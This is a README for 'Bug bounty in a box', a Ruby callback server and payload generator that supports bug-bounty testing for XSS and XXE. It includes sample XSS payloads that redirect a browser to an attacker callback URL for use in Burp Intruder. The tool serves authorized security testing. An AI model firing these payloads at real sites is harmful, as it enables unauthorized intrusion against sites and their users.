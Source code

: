 # :boom: Bug bounty in a box

This repository contains all\* that you should need to get up and running to test for bugs against your targets.

\* Ok, literally not _everything_ but it's a good start!

## :vertical_traffic_light: Project Status

This is by no means "production ready"; there are still some server configuration options that need to be explored before this should be run in production.

### :shipit: To-do list

1. Add more payloads!
1. Add more endpoints!
1. Add "Development" guide

## :running: Quickstart

To get up & hacking, you'll need to:

1. Move the configuration sample: `mv config/application.yml.sample config/application.yml`
1. Edit the `config/application.yml` to your preferences
1. Install the gems: `bundle install`
1. Start the server: `ruby app.rb`
1. Move the payload sample: `mv payloads/xss.yml.sample payloads/xss.yml`
1. Generate the payloads: `ruby generate_payloads.rb --callback=YOUR_SERVER_URL --target=YOUR_TARGET`
1. Use `payloads/xss.txt` in Burp's Intruder (or something similar)
1. Cross your fingers...
1. Profit!

### :whale: Docker Quickstart

_Note: You cannot currently generate payloads with the Docker container. The Docker container only runs the server._

To get up & running in Docker, clone this repository and run the following:

```bash
mv config/application.yml.sample config/application.yml
vim config/application.yml # Edit your config values!
mkdir -p logs
docker build -t bbb . && docker run -d \
-v $(pwd)/config/application.yml:/app/config/application.yml \
-v $(pwd)/logs/:/app/logs/ \
-p 4567:4567 \
-e "APP_ENV=production" \
bbb
```

Then, you should be able to `curl localhost:4567` and see the hello world!

### :globe_with_meridians: Production Quickstart

If you'd like to know how to set up the Bug Bounty in a Box callback server for "production" use, check out [the Wiki](https://github.com/andrewjkerr/bug-bounty-in-a-box/wiki/Running-in-%22production%22).

## :information_desk_person: How does this work?

This "bug bounty in a box" has two different components:
1. A payload callback server
1. A payload generator

### :pager: Callback Server

The callback server, written in Ruby & using [Sinatra](http://sinatrarb.com/), currently has the following capabilities:

* Callback: A callback with a payload & target parameter will log the "callback" to a on-server text log as well as send a Slack message to a Slack webhook. (`/callback`)
* Payloads: A payload file of your choice that will contain your callback URL. (`/payload`)
    * Currently supports:
        * JavaScript (`js`) for XSS
        * SVG (`svg`) for XSS
        * XML (`xml`) for XXE
* Redirect: Redirects to a specified URL in the redirect GET parameter. (`/redirect`)
* Unauthorized: Throws a 401 for non-OPTIONS & non-HEAD requests. Also accepts a content_type parameter to return a specific content type. (`/unauthorized`)

#### Configuring the server

You can configure the server in `config/application.yml`! See below for the different configuration options.

##### Slack

In order to receive Slack callbacks, you'll need to set the appropriate `slack_url`. To generate an incoming webhook for your Slack instance, check out [Slack's Help Center](https://get.slack.help/hc/en-us/articles/115005265063-Incoming-WebHooks-for-Slack).

##### Logging

If you'd like to change either the frequency of the log rotation or the log filenames, check out the configuration file.

### :smiling_imp: Payload Generator

The payload generator uses `.yml` files to generate a `.txt` files that contain a list of payloads that can be used in a tool like Burp Intruder.

#### Running the payload generator

Before running the payload generator, make sure you have some properly formatted `.yml` files in the `payloads` folder! After you've done that, you'll need to run the payload generator with the `--callback` and `--target` flags like such:

```bash
ruby generate_payloads.rb --callback=localhost:4567/callback --target=www.example.com
```

Then, check out the `payloads` folder for the `.txt` file with a list of payloads!

#### Configuring payloads

In order to add a new class of payloads, just create a new `.yml` file with the following:

```yaml
name: XSS
payloads:
  - description: A simple XSS payload
    payload: <script>document.location='CALLBACK_URL'</script>
  - payload: <script>document.location="CALLBACK_URL"</script>
```

The `CALLBACK_URL` will be replaced with whatever is passed in with the `--callback` flag with some added parameters of (1) a callback description & (2) the target.

## :raised_hands: Contributing

Want to contribute? Great! Here's what you do:

1. Fork this repository
1. Push some code to your fork
1. Come back to this repository and open a PR
1. After some review, get that PR merged to master
1. :tada: Thank you for your contribution!!

Feel free to also open an issue with any bugs/comments/requests!
